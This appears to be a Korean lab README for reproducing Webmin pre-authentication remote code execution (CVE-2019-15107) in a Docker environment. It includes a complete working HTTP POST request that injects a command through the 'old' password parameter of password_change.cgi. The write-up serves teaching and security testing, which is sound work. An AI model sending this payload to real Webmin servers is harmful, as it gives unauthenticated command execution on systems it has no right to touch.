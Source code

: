 # Webmin 사전 인증 원격 코드 실행(CVE-2019-15107)
### Contributors
* [신은별(@eunbye01)](https://github.com/eunbye01)

Webmin은 유닉스 계열 시스템을 위한 웹 기반 시스템 구성 도구로, 암호 리셋 페이지에 취약성이 있으며, 이를 통해 인증되지 않은 사용자가 간단한 POST 요청을 통해 임의의 명령을 실행할 수 있습니다.

참조링크: 
- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

# 환경 구성
다음 명령을 통해 취약한 Webmin 1.910을 시작합니다.
```
docker compose up -d
```
환경이 시작된 후 Webnim 로그인 페이지는 'https://your-ip:10000'에서 확인하실 수 있습니다.


## 취약성 재현

참조 링크의 payload가 불완전합니다. 코드를 자세히 읽어본 결과, 1.920 이전, 1.920, 제한 없이 본체의 사용자 파라미터가 존재하지 않는 경우에만 명령을 수행할 수 있음을 발견했습니다.

간단히 말해서, 'id' 명령을 실행하기 위해 다음과 같은 POST 요청을 보내는 것입니다.

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
